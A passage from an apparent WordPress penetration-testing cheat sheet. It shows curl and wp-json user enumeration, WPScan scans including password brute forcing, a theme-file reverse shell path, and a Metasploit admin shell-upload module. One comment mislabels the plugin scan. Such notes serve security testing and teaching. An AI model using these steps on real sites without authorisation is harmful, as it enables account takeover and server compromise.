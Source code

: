#### Users

#### **ID Brute**

You get valid users from a WordPress site by Brute Forcing users IDs:

```bash
curl -s -I -X GET http://blog.example.com/?author=1
```

If the responses are **200** or **30X**, that means that the id is **valid**. If the the response is **400**, then the id is **invalid**.

**wp-json**

You can also try to get information about the users by querying:

```bash
curl http://blog.example.com/wp-json/wp/v2/users
```

**Only information about the users that has this feature enable will be provided**.

Also note that **/wp-json/wp/v2/pages** could leak IP addresses.

#### Login username enumeration

When login in **`/wp-login.php`** the **message** is **different** is the indicated **username exists or not**.

#### WPScan

```bash
wpscan -h #List WPscan Parameters
wpscan --update #Update WPscan

#Enumerate WordPress using WPscan


wpscan --url "http://<TARGET_IP>" -e t #All Themes Installed

wpscan --url "http://<TARGET_IP>" -e vt #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e p #All Plugins Installed

wpscan --url "http://<TARGET_IP>"  -e vp #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e u #WordPress Users

wpscan --url "http://<TARGET_IP>"  --passwords path-to-wordlist #Brute Force WordPress Passwords

#Upload Reverse Shell to WordPress
http://<IP>/wordpress/wp-content/themes/twentyfifteen/404.php

#Upload using Metasploit
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
msf exploit(wp_admin_shell_upload) > set PASSWORD admin
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit
```
